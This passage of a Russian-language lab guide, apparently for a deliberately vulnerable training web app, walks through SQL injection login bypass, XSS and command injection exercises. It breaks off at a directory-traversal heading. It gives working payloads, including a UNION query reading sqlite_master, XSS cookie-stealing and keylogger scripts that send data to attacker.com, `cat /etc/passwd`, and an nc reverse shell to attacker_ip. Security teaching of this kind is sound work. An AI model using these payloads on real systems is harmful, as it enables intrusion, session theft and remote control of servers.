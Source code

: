 **Цель:** Обойти аутентификацию используя SQL Injection

**Шаги выполнения:**

1. Откройте веб-приложение в браузере
2. Перейдите на страницу `/login`
3. Попробуйте войти с обычными credentials: `admin/admin123`
4. Теперь попробуйте SQL Injection:
   - Username: `admin' OR '1'='1' --`
   - Password: `anything`

**Объяснение:**
Запрос в базе данных выглядит так:
```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'
```

Поскольку `'1'='1'` всегда истинно, а `--` комментирует остальную часть запроса, мы обходим проверку пароля.

**Дополнительные эксперименты:**
- Попробуйте извлечь данные: `admin' UNION SELECT 1,2,3 --`
- Определите структуру базы: `admin' UNION SELECT name, sql FROM sqlite_master --`

#### Задание 2: XSS (Cross-Site Scripting)

**Цель:** Выполнить JavaScript код в браузере другого пользователя

**Шаги выполнения:**

1. Перейдите на страницу `/search`
2. Введите поисковый запрос: `<script>alert('XSS!');</script>`
3. Нажмите "Search"
4. Наблюдайте выполнение JavaScript кода

**Усложненные варианты:**
- Cookie stealing: `<script>document.location='http://attacker.com/cookie.php?cookie='+document.cookie;</script>`
- Keylogger: `<script>document.onkeypress=function(e){new Image().src='http://attacker.com/log.php?key='+String.fromCharCode(e.which);}</script>`

#### Задание 3: Command Injection

**Цель:** Выполнить системные команды на сервере

**Шаги выполнения:**

1. Перейдите на страницу `/command`
2. Попробуйте выполнить: `ls -la`
3. Попробуйте: `id`
4. Попробуйте: `cat /etc/passwd`
5. Попробуйте цепочку команд: `ls -la; whoami; pwd`

**Дополнительные эксперименты:**
- Reverse shell: `nc -e /bin/bash attacker_ip 4444`
- Поиск интересных файлов: `find / -name "*.conf" 2>/dev/null`

#### Задание 4: Directory Traversal
